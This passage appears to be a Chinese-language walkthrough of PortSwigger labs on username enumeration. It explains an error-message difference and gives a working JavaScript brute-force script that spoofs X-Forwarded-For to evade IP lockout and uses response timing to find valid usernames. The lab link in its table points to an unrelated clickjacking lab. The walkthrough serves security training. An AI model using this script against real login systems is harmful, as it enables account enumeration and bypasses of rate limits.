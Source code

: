 這題的重點觀念是，"帳號錯誤" 跟 "密碼錯誤" 可能會回傳些許不同的 error message，利用這個差異，就可以得知這個帳號是合法的

- 帳號錯誤 => `"Invalid username or password."`
- 密碼錯誤 => `"Invalid username or password "`

## Lab: Username enumeration via response timing

| Dimension | Description                                                                             |
| --------- | --------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/password-based#username-enumeration |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected              |

先找出正確的 username

login function，加上 `X-Forwarded-For` 避免同一個 IP 被鎖

```js
function login(username, password) {
  return fetch(`${location.origin}/login`, {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
      "X-Forwarded-For": new Date().toISOString(),
    },
    body: `username=${encodeURIComponent(username)}&password=${encodeURIComponent(password)}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  });
}
```

main function

```js
async function main() {
  for (const username of usernames) {
    for (const password of [
      "123123123123123123123213123123123123123123123123123123123123123123123123123123123123123123",
    ]) {
      const start = performance.now();
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const end = performance.now();
      const ms = end - start;
      const isBlocked = text.includes(
        "You have made too many incorrect login attempts. Please try again in 30 minute(s).",
      );
      const isValid = response.redirected;
      if (isValid) {
        console.log(username, password);
        return;
      }
      if (isBlocked) return;
      if (ms > 400) console.log(username, password);
    }
  }
}
```
